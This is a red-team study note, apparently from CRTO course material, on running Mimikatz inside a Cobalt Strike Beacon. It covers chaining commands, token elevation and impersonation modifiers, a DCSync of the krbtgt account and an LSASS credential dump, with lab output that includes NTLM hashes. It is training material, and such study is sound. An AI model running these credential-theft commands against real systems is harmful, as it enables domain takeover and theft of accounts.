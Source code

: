 
Check for [[Mimikatz]] for further information on the tool.
Cobalt Strike has a built-in version of Mimikatz that we can use to extract various credential types.  However, there are some differences with how it behaves in Beacon compared to the console version.  

Each time you execute Mimikatz in Beacon, it does so in a new temporary process which is then destroyed.  This means you can't run two "related" commands, such as:

```
beacon> mimikatz token::elevate
beacon> mimikatz lsadump::sam
```
You need to chain them.

## 🖊️ Command shortcuts

1) Since CS 4.8, you can chain multiple commands together by separating them with a semi-colon.

	`beacon> mimikatz token::elevate ; lsadump::sam`

Here, you are (from an elevate beacon session) elevating your token privileges to nt authority system and dumpling the SAM db.

2) Beacon also has its own command convention using the `!` and `@` symbols as "modifiers".

The `!` elevates Beacon to SYSTEM before running the given command, which is useful in cases where you're running in high-integrity but need to impersonate SYSTEM.  In most cases, `!` is a direct replacement for `token::elevate`. For example:

	`beacon> mimikatz !lsadump::sam`

3) The `@` impersonates Beacon's thread token before running the given command, which is useful in cases where Mimikatz needs to interact with a remote system, such as with [[dcsync]].  This is also compatible with other impersonation primitives such as `make_token` and `steal_token`.  For example:

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> make_token DEV\nlamb F3rrari
[+] Impersonated DEV\nlamb (netonly)

beacon> mimikatz @lsadump::dcsync /user:DEV\krbtgt
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 8/15/2022 4:01:04 PM
Object Security ID   : S-1-5-21-569305411-121244042-2357301523-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9fb924c244ad44e934c390dc17e02c3d
    ntlm- 0: 9fb924c244ad44e934c390dc17e02c3d
    lm  - 0: 207d5e08551c51892309c0cf652c353b
```

## 📔 Extracting NTLM

1) Just like using regular [[Mimikatz]], you can use the Cobalt Strike tool to extract [[NetNTLM]] hashes:

```
beacon> mimikatz !sekurlsa::logonpasswords

Authentication Id : 0 ; 579458 (00000000:0008d782)
Session           : Batch from 0
User Name         : jking
Domain            : DEV
Logon Server      : DC-2
Logon Time        : 8/31/2022 11:49:48 AM
SID               : S-1-5-21-569305411-121244042-2357301523-1105
	msv :
	 [00000003] Primary
	 * Username : jking
	 * Domain   : DEV
	 * NTLM     : 59fc0f884922b4ce376051134c71e22c
	 * SHA1     : 74fa9854d529092b92e0d9ebef7ce3d065027f45
	 * DPAPI    : 0837e40088a674327961e1d03946f5f2
```

OPSEC: This module will open a read handle to LSASS which can be logged under event 4656.  Use the "Suspicious Handle to LSASS" saved search in Kibana to see them.

### Properties
---
📆 created   {{10-02-2024}} 21:45
🏷️ tags: #redteam #crto #activedirectory 

---


